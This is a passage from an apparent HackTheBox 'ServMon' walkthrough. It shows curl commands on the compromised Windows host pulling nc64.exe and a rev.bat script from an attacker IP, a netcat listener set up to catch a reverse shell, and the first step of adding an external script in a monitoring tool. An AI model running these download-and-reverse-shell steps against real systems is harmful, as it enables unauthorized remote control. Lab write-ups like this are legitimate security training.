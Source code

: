 And then, we dowload it to the windows machine.

```bash
nadine@SERVMON c:\temp>curl http://10.10.14.15/nc64.exe -o nc64.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 45272  100 45272    0     0  45272      0  0:00:01 --:--:--  0:00:01  281k

nadine@SERVMON c:\temp>curl http://10.10.14.15/rev.bat -o rev.bat
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    42  100    42    0     0     42      0  0:00:01 --:--:--  0:00:01   538
```

We setup a netcat listener as well.

```bash
nc -nvlp 81
listening on [any] 81 ...
whoami

```

> I always type a legible command and press enter. There might be cases where a prompt will not be shown. So, typing a command will automatically gets executed and shows the output.
{: .prompt-tip }


##### Step-4:

Next, we need to create an external script. Navigate to Settings -> external scripts -> scripts and press "Add new".

![Add script](/assets/img/posts/htb-servmon/ss10.png)
_Add an external script_
